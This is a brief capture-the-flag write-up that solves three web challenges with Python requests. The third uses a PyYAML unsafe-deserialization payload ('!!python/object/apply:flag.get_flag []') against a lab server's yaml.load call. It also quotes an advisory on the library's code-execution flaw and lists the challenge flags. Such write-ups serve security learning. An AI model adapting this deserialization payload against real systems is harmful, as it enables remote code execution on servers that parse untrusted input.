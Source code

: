 # Post1

```python
import requests
r = requests.post("https://infreezy.pythonanywhere.com/post") # sending a post request to this link
print(r.text)
# inf{there's_more_than_one_http_request_method}
```

# Post2
```python
r = requests.post("https://infreezy.pythonanywhere.com/post2", data={"username":"admin"}) # Same idea, just sending data with the request
print(r.text)
# inf{there's_more_than_one_way_to_post}
```

# Post3
You can see in the script that the website uses yaml.load(text, Loader=yaml.Loader) which is vulnerable to RCE!

**A vulnerability was discovered in the PyYAML library in versions before 5.3.1, 
where it is susceptible to arbitrary code execution when it processes untrusted YAML files through the full_load method or with the FullLoader loader. 
Applications that use the library to process untrusted input may be vulnerable to this flaw. 
An attacker could use this flaw to execute arbitrary code on the system by abusing the python/object/new constructor.**

You've probably also noticed that it's impossible to enter the secret text since it's longer than 20 characters!

And that there's a module called flag containing get_flag()

All you have to do is to call that function in yaml

```python
r = requests.post("https://infreezy.pythonanywhere.com/post3", data={"text":"!!python/object/apply:flag.get_flag []"})
print(r.text)
# inf{D3s3r14l1Z4t10N}
```
